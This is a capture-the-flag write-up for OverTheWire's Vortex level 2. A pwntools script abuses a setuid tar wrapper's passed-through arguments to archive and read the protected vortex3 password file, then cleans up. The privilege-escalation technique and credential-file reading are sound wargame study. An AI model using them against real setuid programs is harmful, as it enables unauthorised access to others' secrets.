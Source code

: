 ```yaml
---
layout: post
title:  "Vortex Level 2"
date:   2015-10-22 02:20
categories: vortex wargame web overthewire
author: Natri
---
```

This is a solution guide to the Vortex Level 02 at <a href="http://overthewire.org/wargames/vortex/vortex2.html">overthewire</a>. This write-up was created on 21 October 2015.

<!--break-->

The prompt hints at "create a special tar file", ok we are going to be working with tar files.  Looking at the source code below we see that <strong>/bin/tar</strong> is executed with <strong>execv</strong>.

{% highlight c linenos %}
#include <stdlib.h>
#include <stdio.h>
#include <sys/types.h>

int main(int argc, char **argv)
{
        char *args[] = { "/bin/tar", "cf", "/tmp/ownership.$$.tar", argv[1], argv[2], argv[3] };
        execv(args[0], args);
}
{% endhighlight %}

Lets log into the server and take a look at the permissions <strong>vortex2</strong> runs at and the permissions of the password file.

{% highlight bash %}
vortex2@melinda:/vortex$ ls -la /vortex/vortex2
-r-sr-x--- 1 vortex3 vortex2 7295 Nov 14  2014 /vortex/vortex2
vortex2@melinda:/vortex$ ls -la /etc/vortex_pass/vortex3
-r-------- 1 vortex3 vortex3 10 Nov 14  2014 /etc/vortex_pass/vortex3
{% endhighlight %}

That is good the program runs with vortex3 permissions and the password can be opened by vortex3.

<h2>Methodology</h2>

1. Establish connection
1. Get shell PID
2. Run program to create tarball with the password inside and be able to open it with the permissions of vortex2
3. Open tarball and get password
4. Cleanup

<h2>Establish connection</h2>
Standard connection used.

{% highlight python %}
from pwn import *
import time

HOST = 'vortex.labs.overthewire.org'
USERNAME = 'vortex2'
PASS = ''

s = ssh(host=HOST, user=USERNAME, password=PASS)

location = "/vortex"
file_name = '%s/vortex2' % location
password_file = '/etc/vortex_pass/vortex3'
{% endhighlight %}

<h2>Get shell PID</h2>
<strong>NOTE:</strong>Did not need to actually get PID, through testing actually found out that <em>execv</em> does not evaluate $$ like bash does and just processes it as a normal character.  I have left this in to show flaw in thought process.

<strike>Since it is hard coded that the name of the file will be <strong>/tmp/ownership.\$\$.tar</strong>; the <em>$$</em> in the file name is the decimal process ID of the invoked shell</strike> [^1]

{% highlight python %}
shell_pid = s('echo $$')
{% endhighlight %}

<h2>Run program</h2>
The goal is to run this program that creates the tarball but make sure that when created it assigns the permissions of <em>vortex2</em> instead of the invoking permissions of <em>vortex3</em>.  To do this lets look at the [man page for tar](http://linuxcommand.org/man_pages/tar1.html).  Based on the options we should set the <strong>--mode</strong> with <em>'a+rw'</em>

{% highlight python %}
#run the program and ensure the file is written with vortex2 permissions, or atleast can be read
arg1 = "-v"
arg2 = "--mode='a+rw'"
arg3 = password_file
response = s('{0} {1} {2} {3}'.format(file_name, arg1, arg2, arg3))
log.info(response)
{% endhighlight %}

<h2>Open tarball and get password</h2>

1. Create a location to decompress the files
2. Read the files

{% highlight python %}
#create a location where we can copy the file and work on it
temp_location = "/tmp/happytimes_{0}".format(random.randint(1,10000))
response = s('mkdir {0}'.format(temp_location))
log.info(response)
response = s("cp '/tmp/ownership.$$.tar' {0}/mine.tar".format(temp_location))
log.info(response)

#decompress the file and read the contents
response = s("tar xvf {0}/mine.tar -C {0}".format(temp_location))
log.info(response)
password = s("cat {0}{1}".format(temp_location,password_file))
log.success('PASSWORD: {0}'.format(password))
{% endhighlight %}

<h2>Clean up</h2>

1. Remove files created
2. Clean up environment

{% highlight python %}
#clean up after ourselves
response = s('rm -rf %s' % temp_location)
log.info(response)
response = s("rm '/tmp/ownership.$$.tar'")
log.info(response)

#get rid of any junk from the buffer
s.clean()
{% endhighlight %}

<h2>Endnotes</h2>
[^1]: http://superuser.com/questions/247127/what-is-and-in-linux

<h2>Complete Program</h2>
{% highlight python %}
from pwn import *

HOST = 'vortex.labs.overthewire.org'
USERNAME = 'vortex2'
PASS = ''

s = ssh(host=HOST, user=USERNAME, password=PASS)

location = "/vortex"
file_name = '%s/vortex2' % location
password_file = '/etc/vortex_pass/vortex3' + chr(0)

#(testing)download source file
#s.download_file(file_name) #download the ELF

#(testing) went down wrong road here thinking that C would actually evaluate $$ as the PID of process running
#shell_pid = s('echo $$')
#log.info('PID: %s' % shell_pid)

#run the program and ensure the file is written with vortex2 permissions, or atleast can be read
arg1 = "-v"
arg2 = "--mode='a+rw'"
arg3 = password_file
response = s('{0} {1} {2} {3}'.format(file_name, arg1, arg2, arg3))
log.info(response)

#create a location where we can copy the file and work on it
temp_location = "/tmp/happytimes_{0}".format(random.randint(1,10000))
response = s('mkdir {0}'.format(temp_location))
log.info(response)
response = s("cp '/tmp/ownership.$$.tar' {0}/mine.tar".format(temp_location))
log.info(response)

#decompress the file and read the contents
response = s("tar xvf {0}/mine.tar -C {0}".format(temp_location))
log.info(response)
password = s("cat {0}{1}".format(temp_location,password_file))
log.success('PASSWORD: {0}'.format(password))

#clean up after ourselves
response = s('rm -rf %s' % temp_location)
log.info(response)
response = s("rm '/tmp/ownership.$$.tar'")
log.info(response)

#get rid of any junk from the buffer
s.clean()

{% endhighlight %}
